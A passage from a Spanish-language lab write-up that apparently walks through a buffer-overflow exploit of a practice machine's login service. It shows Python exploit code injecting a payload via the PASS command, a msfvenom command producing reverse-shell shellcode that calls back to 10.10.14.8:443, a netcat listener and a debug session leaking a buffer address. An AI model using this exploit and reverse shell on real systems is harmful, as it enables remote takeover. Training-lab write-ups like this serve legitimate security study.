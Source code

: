 ```python
after_eip = buf

p.recvuntil("OK Ready. Send USER command.")
p.sendline("USER admin")
p.recvuntil("OK Send PASS command.")
p.sendline("PASS ".encode() + before_eip + EIP + after_eip)
```

> [ ! ] NOTAS: el shellcode a sido creado con el comando `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -b "\x00\x0a" -f python`. Los badchars
aqui son los que ponemos siempre.

Ahora testeamos el script

1. Lanzamos el jail

    ```bash
    ./jail
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script en python

    ```bash
    python3 exploit.py
    ```

En este caso no funcciona y tito nos adelanta que el problema viene que de vez en cuando, el espacio del shellcode sobrepasa el limite de caracteres que podemos injectar, 
o mejor dicho es demasiado grande. Esta limitacion puede ser bypasseada por una tecnica llamada **reuse addr** explicada en la web de [rastating](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/).
La tecnica consiste en utilizar methodos **send** o **recv** del socket de coneccion para ganar espacio para el shellcode.

Si buscamos por shellcode re-use en [exploit-db](https://www.exploit-db.com/shellcodes/34060), podemos encontrar shellcode que crearian un `/bin/bash`

Modificamos el shellcode del exploit.py y ganamos accesso a la maquina victima

## Vuln exploit & Gaining Access {-}

### Ganando accesso con el bufferoverflow {-}

1. Lanzamos el debug mode para recuperar la direccion del buffer

    ```bash
    nc 10.10.10.34 7411
    OK Ready. Send USER command.
    DEBUG
    OK DEBUG mode on.
    USER admin
    OK Send PASS command.
    PASS admin
    Debug: userpass buffer @ 0xffffd140
    ```
